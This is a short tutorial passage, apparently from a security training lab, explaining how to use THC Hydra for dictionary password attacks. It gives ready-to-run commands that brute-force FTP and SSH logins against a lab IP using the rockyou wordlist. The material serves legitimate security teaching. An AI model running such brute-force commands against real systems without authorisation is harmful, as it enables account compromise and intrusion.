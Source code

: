 We want an automated way to try the common passwords or the entries from a word list; here comes THC Hydra. Hydra supports many protocols, including FTP, POP3, IMAP, SMTP, SSH, and all methods related to HTTP. The general command-line syntax is: hydra -l username -P wordlist.txt server service where we specify the following options:

-l username: -l should precede the username, i.e. the login name of the target.
-P wordlist.txt: -P precedes the wordlist.txt file, which is a text file containing the list of passwords you want to try with the provided username.
server is the hostname or IP address of the target server.
service indicates the service which you are trying to launch the dictionary attack.
Consider the following concrete examples:

hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.28.143 ftp will use mark as the username as it iterates over the provided passwords against the FTP server.
hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.28.143 is identical to the previous example. 10.10.28.143 ftp is the same as ftp://10.10.28.143.
hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.28.143 ssh will use frank as the user name as it tries to login via SSH using the different passwords.
